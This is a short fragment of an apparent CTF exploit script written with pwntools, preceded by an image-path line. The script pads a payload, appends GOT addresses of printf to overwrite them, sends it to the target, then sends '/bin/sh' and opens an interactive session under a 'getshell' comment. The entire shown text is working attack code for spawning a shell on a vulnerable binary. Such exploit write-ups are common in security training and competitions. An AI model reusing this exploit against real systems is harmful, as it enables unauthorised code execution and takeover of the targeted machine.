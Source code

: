 ```
payload3 = payload3.ljust(32 , "B")

payload3 += p64(elf.got["printf"])
payload3 += p64(elf.got["printf"] + 2)

pause()

p.sendline(payload3)

################getshell##################

p.sendline("/bin/sh\x00")

p.interactive()
```







